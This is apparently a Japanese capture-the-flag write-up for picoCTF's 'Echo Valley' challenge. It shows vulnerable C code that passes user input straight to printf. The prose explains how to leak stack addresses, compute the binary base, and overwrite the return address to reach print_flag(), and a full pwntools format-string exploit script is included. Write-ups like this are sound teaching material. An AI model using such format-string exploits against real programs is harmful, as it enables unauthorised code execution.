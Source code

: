 ```c
    printf("Welcome to the Echo Valley, Try Shouting: \n");

    char buf[100];

    while(1)
    {
        fflush(stdout);
        fgets(buf, sizeof(buf), stdin);

        if (strcmp(buf, "exit\n") == 0) {
            printf("The Valley Disappears\n");
            break;
        }

        printf("You heard in the distance: ");
        printf(buf);
        fflush(stdout);
    }
    fflush(stdout);
}

int main()
{
    echo_valley();
    return 0;
}
```

解法は難しくなく、はじめにFSBの脆弱性を通じてリターンアドレスと退避された`rbp`を入手します。`gdb`などで調べると、退避された`rbp`の値から0x8を減算すると、そこにはリターンアドレスが存在していることが分かります。また、リターンアドレスは、当該命令が相対アドレスで`0x1413`と分かるので、リークしたリターンアドレスから`0x1413`を減算すればバイナリのベースアドレスが算出できると分かります。ベースアドレスが算出できれば、`pwntools`が`print_flag()`関数のアドレスも算出してくれるのでそれを利用できます。

準備が整ったので、「リターンアドレスのアドレス(`saved_rbp-0x8`)」に`print_flag()`のアドレスを書き込むように書式文字列を作成・送信すればフラグが入手できます。

```python
from pwn import *

file = './valley'
elf = context.binary = ELF(file)
#p = process(file)
p = remote("shape-facility.picoctf.net", 54075)

p.recvline()
p.sendline(b'%20$p.%21$p')
p.recvuntil(b'distance: ')

leak = p.recvuntil(b'\n').split(b'.')
elf.address = int(leak[1], 16) - 0x1413
addr_retaddr = int(leak[0], 16) - 0x8

print(f'base: {hex(elf.address)}')
print(f'loca: {hex(addr_retaddr)}')

payload = fmtstr_payload(6, {addr_retaddr: elf.sym['print_flag']}, write_size='short')
p.sendline(payload)
p.sendline(b'exit')

p.interactive()
```
